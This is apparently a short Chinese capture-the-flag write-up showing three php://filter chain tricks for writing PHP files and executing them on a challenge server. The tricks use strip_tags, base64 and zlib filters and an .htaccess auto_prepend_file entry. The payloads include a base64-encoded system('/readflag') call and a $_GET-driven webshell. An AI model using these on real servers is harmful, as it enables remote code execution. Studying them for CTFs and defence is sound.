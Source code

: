 

参考 https://xz.aliyun.com/t/8163#toc-9中

`php://filter/write=string.strip_tags/?>php_value%20auto_prepend_file%20G:\s1mple.php%0a%23/resource=.htaccess`



**方法一**



改写为

`php://filter/write=string.strip_tags/?>xxxx<?/resource=1.php`

1.php 内容则为xxxx



将xxxx改为 `PD9waHAgc3lzdGVtKCcvcmVhZGZsYWcnKTs%3D` 即

``php://filter/write=string.strip_tags/?>PD9waHAgc3lzdGVtKCcvcmVhZGZsYWcnKTs%3D<?/resource=2.php``



将如下写入.htaccess文件

```
php_value auto_prepend_file php://filter/read=convert.bas\
e64-decode/\
resource=2.php
```



访问2.php

![BZ36n1.png](https://s1.ax1x.com/2020/10/24/BZ36n1.png)



**方法二**

`php://filter/write=string.strip_tags/?>PD9waHAgc3lzdGVtKCcvcmVhZGZsYWcnKTs%3D<?/resource=2.php`

写入2.php



主页存在include 

`index.php?page=php://filter/read=convert.base64-decode/resource=sandbox/4e5b09b2149f7619cca155c8bd6d8ee5/2.php`





方法三

利用 `zlib.deflate`

```php
<?php

file_put_contents('php://filter/write=zlib.deflate/resource=1.php','<?php system($_GET[a]);?>');

$payload = urlencode(file_get_contents('1.php'));

file_put_contents("php://filter/write=string.strip_tags|zlib.inflate/resource=bl.php", '<?php exit();?>'.urldecode($payload));

?>
```
